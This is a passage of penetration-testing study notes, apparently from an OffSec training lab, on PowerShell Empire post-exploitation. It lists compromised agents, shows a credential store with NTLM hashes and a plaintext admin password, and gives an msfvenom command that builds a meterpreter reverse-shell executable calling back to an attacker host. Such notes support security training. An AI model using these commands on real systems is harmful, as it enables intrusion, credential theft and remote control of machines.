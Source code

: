     (Empire: K678VC13) > agents
    [*] Active agents:
    Name Lang Internal IP Machine Name Username Process Delay
    --------- ---- ----------- ------------ --------- ------- -----
    S2Y5XW1L ps 10.11.0.22 CLIENT251 corp\offsec powershell/2976 5/0.0
    DWZ49BAP ps 10.11.0.22 CLIENT251 corp\offsec explorer/3568 5/0.0
    K678VC13 ps 10.11.0.22 CLIENT251 *corp\offsec powershell/6236 5/0.0
    UXVZ2NC3 ps 10.11.0.22 CLIENT251 *corp\SYSTEM powershell/3912 5/0.0
    (Empire: agents) > interact UXVZ2NC3
    (Empire: UXVZ2NC3) >
    ```
    
    > We can use either the set CredID command to specify the ID number of the entry from the credentials store or manually enter all the credentials.

### Interact with the credential store

```bash
(Empire: K678VC13) > creds
Credentials:
CredID CredType Domain UserName Host Password
------ -------- ------ -------- ---- --------
1 hash corp.com offsec client251 e2b475c11da2a0748290d87aa966c32
2 hash corp.com CLIENT251$ client251 4d4ae0e7cb16d4cfe6a91412b3d80ed

(Empire: K678VC13) > creds add corp.com jeff_admin Qwerty09!
Credentials:
CredID CredType Domain UserName Host Password
------ -------- ------ -------- ---- --------
1 hash corp.com offsec client251 e2b475c11da2a0748290d87aa966c32
2 hash corp.com CLIENT251$ client251 4d4ae0e7cb16d4cfe6a91412b3d80ed
3 plaintext corp.com jeff_admin Qwerty09!
```

---

## Switching Between Empire and Metasploit

> From PowerShell Empire version 2.4, it was possible to use a meterpreter listener and the injectshellcode module to inject a meterpreter shellcode directly in memory from PowerShell.


### Empire —> Metaslpoit

If a PowerShell Empire agent is active on the host, we can use [msfvenom](msfvenom.md) to generate a meterpreter reverse shell as an executable.

```bash
kali@kali:~$ msfvenom -p windows/meterpreter/reverse_http LHOST=10.11.0.4 LPORT=7777 -f exe -o met.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 633 bytes
Final size of exe file: 73802 bytes
Saved as: met.exe
```
